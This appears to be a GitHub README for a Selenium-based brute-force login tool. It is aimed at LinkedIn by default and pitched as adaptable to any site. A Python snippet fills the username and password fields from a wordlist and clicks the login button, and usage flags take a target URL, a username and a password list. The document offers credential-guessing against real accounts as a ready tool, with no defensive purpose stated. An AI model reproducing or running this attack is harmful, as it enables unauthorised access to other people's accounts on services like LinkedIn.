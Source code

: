 # Selenium-Brute-Force
A simple script for doing brute-force attack using selenium.

## Help
- The default script is useful for Linkedin, but it works for everything. For other platforms, it needs to extract username id, password id, and login button class using browser inspector.
![](https://github.com/mohammadkamrani/Selenium-Brute-Force/blob/main/2021-01-20_14-43-37.jpg)
put them in code.
```python
	username = driver.find_element_by_id("username")		
	username.clear()
	print("username: "+curuser)
	username.send_keys(curuser)		
	password = driver.find_element_by_id("password")
	password.clear()
	print("password: "+passw+"\n")
	password.send_keys(passw)			
	driver.find_element_by_class_name('login__form_action_container').click()
}
```
- -h, --help  show this help message and exit
- -t    target's url: https://www.linkedin.com/uas/login
- -u    username
- -p    wordlist: for example password.txt

![](https://github.com/mohammadkamrani/Brute-Force/blob/main/ezgif.com-video-to-gif.gif)

